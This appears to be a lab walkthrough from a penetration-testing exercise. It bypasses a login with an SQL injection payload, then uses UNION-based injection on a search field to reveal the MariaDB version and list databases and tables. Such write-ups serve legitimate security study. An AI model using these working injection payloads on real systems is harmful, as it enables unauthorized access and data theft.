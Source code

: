 ### Practical
#### Login Screen
Going to the site, we are faced with a login screen like this:
![kuva](https://hackmd.io/_uploads/HJMCRXa8Je.png)

Now my first guess would be to try muliple SQL injections on the username or password field. 

After trying some payloads, I eventually find the correct one:
```sql
admin' OR '1'='1'-- -
```
#### Dashboard (Post-Login)
After successfully logging in, I'm faced with a dashboard:
![kuva](https://hackmd.io/_uploads/BJHY1EaLkg.png)
In the dashboard, the only thing we can interact with is the ``Search`` function.

If I try to input a basic test for SQLi using the apostrophe (`'`), we get the following error confirming a chance for SQLi:
```txt!
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```
Lets try to see if it's In-Band SQLi via `@@version`:
```sql
'UNION SELECT @@version
```
I get the error `The used SELECT statements have a different number of columns`

So after testing the correct amount, I end up with this query:
```sql
'UNION SELECT 1,@@version,3,4,5-- -
```
Which results in this:
``10.3.22-MariaDB-1ubuntu1``

Now we can enumerate all the databases with:
```sql
' UNION SELECT 1,schema_name,3,4,5 FROM information_schema.schemata--
```
Which results in the following:
```txt=
information_schema
mysql
performance_schema
ilfreight
backup
```
Let's list the tables for ``ilfreight`` with:
```sql
' UNION SELECT 1,table_name,table_schema,4,5 FROM information_schema.tables WHERE table_schema='ilfreight'-- -
```
Which returns:
```txt
users
```
And ``backup``:
```sql!
' UNION SELECT 1,table_name,table_schema,4,5 FROM information_schema.tables WHERE table_schema='backup'-- -
```
which returns:
```txt!
admin_bk
```
